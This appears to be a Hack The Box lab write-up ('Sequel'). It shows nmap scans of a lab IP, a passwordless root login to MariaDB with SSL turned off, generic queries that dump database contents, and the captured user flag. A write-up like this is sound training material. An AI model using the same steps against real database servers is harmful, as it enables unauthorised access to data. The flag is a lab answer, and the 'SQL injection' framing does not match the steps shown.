 # Sequel Writeup
**[Type: HTB | Lab]**  
**Date:** 2025-08-13  
**Difficulty:** Easy  
**Target IP/URL:** 10.129.191.109  
**Objective:** Learn basics of SQL injection and server-side injection  

---

## 1. Reconnaissance
**Tools & Commands Used:**
- Initial Nmap scan:
  ```bash
  nmap -sV -oN scan.txt -iL ip-address.txt
  ```
- Second Nmap scan with scripts:
  ```bash
  nmap -sC -sV -oN scan.txt -iL ip-address.txt
  ```

**Findings:**
- Port 3306: MariaDB 10.3.27-MariaDB-0+deb10u1 (Debian 10)  
  ![Nmap Scan Result](images/nmap-scan-result.png)

---

## 2. Enumeration
**Tools & Commands Used:**
- Service and version detection:
  ```bash
  nmap -sC -sV -oN scan.txt -iL ip-address.txt
  ```

**Findings:**
- Port 3306 open, running MySQL/MariaDB.  
  ![Nmap Second Scan](images/nmap-second-scan.png)

---

## 3. Exploitation
**Vulnerability Identified:**
- **Name:** Weak Authentication (No CVE)  
- **Why Vulnerable:** MariaDB allows root login without a password when SSL is disabled, indicating misconfiguration.

**Exploit Steps:**
- Attempted MySQL connection:
  ```bash
  mysql -h 10.129.191.109 -u root
  ```
  Output: `ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it`
- Connected with SSL disabled:
  ```bash
  mysql --ssl=0 -h 10.129.191.109 -u root
  ```
  Output:
  ```
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MariaDB connection id is 132
  Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
  ```
  ![MySQL Connection](images/mysql-connection.png)

---

## 4. Privilege Escalation
**Method:**
- Direct root access via MySQL due to no password requirement.

**Commands & Output:**
- Commands executed:
  ```sql
  SHOW databases;
  USE <database_name>;
  SHOW tables;
  SELECT * FROM <table_name>;
  ```
- Result: Accessed database, listed tables, and retrieved data.  
  ![Show Databases](images/show-databases.png)  
  ![Show Tables](images/show-tables.png)  
  ![Show All Rows](images/show-all-rows.png)

---

## 5. Results
- **User Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`  
  ![User Flag](images/user-flag.png)

---

## 6. Lessons Learned
**Key Takeaways:**
- MySQL connections may fail without `--ssl=0` due to SSL/TLS mismatches.
- **SSL/TLS**: Encrypts client-server communication to prevent eavesdropping and tampering, using a handshake for authentication and encryption.
- MySQL commands for enumeration:
  - `SHOW databases;`: Lists accessible databases.
  - `USE <database_name>;`: Selects a database.
  - `SHOW tables;`: Lists tables in the current database.
  - `SELECT * FROM <table_name>;`: Retrieves all data from a table.
- Weak authentication (e.g., no password) is a critical misconfiguration.

**Mistakes to Avoid:**
- Not checking for SSL/TLS requirements in MySQL connections.
- Overlooking open ports like 3306 during scanning.

**Tools/Techniques to Remember:**
- Used `mysql` client for database access.
- Nmap with `-sC` for script-based enumeration.

---

## 7. Images
- ![Nmap Scan Result](images/nmap-scan-result.png)
- ![Nmap Second Scan](images/nmap-second-scan.png)
- ![MySQL Connection](images/mysql-connection.png)
- ![Show Databases](images/show-databases.png)
- ![Show Tables](images/show-tables.png)
- ![Show All Rows](images/show-all-rows.png)
- ![User Flag](images/user-flag.png)

---

## 8. References
- [MariaDB Documentation](https://mariadb.com/kb/en/) (MySQL Client)
- [Nmap Documentation](https://nmap.org/book/man.html) (Tool)
- [OWASP Top Ten 2021](https://owasp.org/Top10) (Injection Reference)